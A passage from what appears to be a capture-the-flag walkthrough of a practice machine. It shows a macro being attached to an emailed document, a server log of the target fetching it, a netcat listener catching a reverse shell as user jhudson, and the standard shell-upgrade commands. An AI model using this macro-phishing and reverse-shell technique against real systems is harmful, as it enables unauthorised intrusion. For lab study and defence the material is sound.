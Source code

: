 I’ll select “Module1” and “Main”, and click ok:

![image-20231024212804933](/img/image-20231024212804933.png)

It shows under “Assigned Action”:

![image-20231024212824959](/img/image-20231024212824959.png)

I’ll save and close the document.

#### Deliver

I’ll update the link in my email and send it again:

![image-20231024212457644](/img/image-20231024212457644.png)

There’s a request for the document at my server:

```
10.10.11.225 - - [26/Oct/2023 07:00:37] "GET /report.odt HTTP/1.1" 200 -

```

And then a reverse shell at listening `nc` as jhudson:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.225 53300
bash: cannot set terminal process group (1178586): Inappropriate ioctl for device
bash: no job control in this shell
bash: /home/jhudson/.bashrc: Permission denied
jhudson@gofer:/usr/bin$

```

I’ll [upgrade my shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q) with the standard trick:

```

jhudson@gofer:/usr/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
jhudson@gofer:/usr/bin$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
jhudson@gofer:/usr/bin$ 

```

And read `user.txt`:
